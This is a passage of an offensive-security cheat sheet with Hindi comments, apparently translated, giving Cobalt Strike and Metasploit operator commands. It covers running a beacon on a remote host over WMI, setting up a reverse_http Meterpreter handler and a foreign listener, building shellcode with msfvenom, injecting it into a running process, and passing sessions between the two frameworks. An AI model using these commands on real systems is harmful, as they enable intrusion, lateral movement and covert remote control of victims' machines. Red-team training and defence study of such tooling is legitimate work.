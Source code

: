 ## WMI के साथ एक बीकन निष्पादित करने के लिए (यह जंप कमांड में नहीं है) बस बीकन अपलोड करें और इसे निष्पादित करें
beacon> upload C:\Payloads\beacon-smb.exe
beacon> remote-exec wmi srv-1 C:\Windows\beacon-smb.exe


# Pass session to Metasploit - Through listener
## Metaploit होस्ट पर
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
msf6 exploit(multi/handler) > set LHOST eth0
msf6 exploit(multi/handler) > set LPORT 8080
msf6 exploit(multi/handler) > exploit -j

## कोबाल्ट पर: Listeners > Add और Payload को Foreign HTTP पर सेट करें। Host को 10.10.5.120 पर सेट करें, Port को 8080 पर सेट करें और Save पर क्लिक करें।
beacon> spawn metasploit
## आप केवल विदेशी लिस्नर के साथ x86 Meterpreter सत्र स्पॉन कर सकते हैं।

# Pass session to Metasploit - Through shellcode injection
## Metasploit होस्ट पर
msfvenom -p windows/x64/meterpreter_reverse_http LHOST=&#x3C;IP> LPORT=&#x3C;PORT> -f raw -o /tmp/msf.bin
## msfvenom चलाएँ और multi/handler लिस्नर तैयार करें

## बिन फ़ाइल को कोबाल्ट स्ट्राइक होस्ट पर कॉपी करें
ps
shinject &#x3C;pid> x64 C:\Payloads\msf.bin # x64 प्रक्रिया में मेटास्प्लॉइट शेलकोड इंजेक्ट करें

# Pass metasploit session to cobalt strike
## स्टेजलेस बीकन शेलकोड उत्पन्न करें, Attacks > Packages > Windows Executable (S) पर जाएं, इच्छित लिस्नर का चयन करें, आउटपुट प्रकार के रूप में Raw का चयन करें और x64 payload का उपयोग करें।
## उत्पन्न कोबाल्ट स्ट्राइक शेलकोड को इंजेक्ट करने के लिए मेटास्प्लॉइट में post/windows/manage/shellcode_inject का उपयोग करें
